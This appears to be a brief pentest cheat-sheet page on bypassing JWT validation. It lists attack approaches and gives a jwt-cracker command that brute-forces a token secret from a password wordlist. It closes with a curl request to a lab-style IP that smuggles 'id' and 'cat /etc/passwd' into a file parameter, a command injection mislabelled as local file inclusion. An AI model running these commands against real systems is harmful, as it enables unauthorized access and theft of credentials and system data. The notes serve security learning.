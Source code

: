 # JWT Tokens

The three main ways to bypass JWT validation:

* Using the `none` alg
* Hijacking another user
* Brute forcing the key.

### Decode the JWT token

{% embed url="https://jwt.io" %}

### Crack JWT tokens

{% embed url="https://lmammino.github.io/jwt-cracker" %}

{% code overflow="wrap" %}
```bash
jwt-cracker -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ -d /usr/share/seclists/Passwords/500-worst-passwords.txt
```
{% endcode %}

### Jwt2john

&#x20;jwt2john.py JWT

&#x20;Convert a JWT to a format John the Ripper can understand.

&#x20;John the Ripper now supports the JWT format, so converting the token is no longer necessary. John has a size limit on the data it will take. If you run into this limit, consider changing SALT\_LIMBS in the source code.

### Local file inclusion

```
curl -i \
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWUzNGRkOWJmNTYxMjA0NjIyMGQxYzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imxlb25AbGVvbi5jb20iLCJpYXQiOjE2NDIyODcxMDJ9.5MlYl8Eubb0sci3Jt3cuacNSki36aGeUoHNrMWXeBXE' \
  'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
```
